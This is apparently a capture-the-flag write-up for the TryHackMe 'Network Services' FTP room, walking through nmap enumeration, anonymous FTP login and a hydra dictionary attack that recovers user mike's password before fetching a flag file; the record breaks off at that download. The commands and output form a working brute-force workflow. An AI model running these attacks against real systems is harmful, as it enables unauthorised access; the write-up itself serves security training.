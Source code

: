 # Network Services FTP

---
Date: 2021-12-17  
Author: Michael Baumberger  
[TryHackMe link](https://tryhackme.com/room/networkservices)
---

## Enumerating FTP

Always start with a nmap scan:

    nmap -sV -A 10.10.189.117
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 23:55 CET
    Nmap scan report for 10.10.189.117
    Host is up (0.047s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 2.0.8 or later
    | ftp-syst:
    |   STAT:
    | FTP server status:
    |      Connected to ::ffff:10.9.205.135
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 3
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_-rw-r--r--    1 0        0             353 Apr 24  2020 PUBLIC_NOTICE.txt
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    Service Info: Host: Welcome
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 22.35 seconds

You can see that **2 ports** are open. The **ftp port is 21**. You also can see that the **ftp variant vsFTPd** is used.

The nmap says that ftp anonymous login is allowed so we try it:

    ftp 10.10.189.117
    Connected to 10.10.189.117.
    220 Welcome to the administrator FTP service.
    Name (10.10.189.117:root): anonymous
    331 Please specify the password.
    Password:
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp>

Now we can list the FTP directory and we see the **file PUBLIC_NOTICE.txt**.
Let us get the file via *'get PUBLIC_NOTICE.txt -'*.
The content of the file contains the probably **username mike**.

## Exploiting FTP

Lets dictionary attack the password of mice with hydra:

    hydra -t 8 -l mike -P /usr/share/wordlists/rockyou.txt 10.10.189.117 ftp
    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-19 00:12:11
    [DATA] max 8 tasks per 1 server, overall 8 tasks, 14344399 login tries (l:1/p:14344399), ~1793050 tries per task
    [DATA] attacking ftp://10.10.189.117:21/
    [21][ftp] host: 10.10.189.117   login: mike   password: password
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-19 00:12:27

Hydra got the **password 'password'** for the user mike.

Lets connect and get the ftp.txt with the flag:

    ftp 10.10.189.117
    Connected to 10.10.189.117.
    220 Welcome to the administrator FTP service.
    Name (10.10.189.117:root): mike
    331 Please specify the password.
    Password:
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> get ftp.txt -

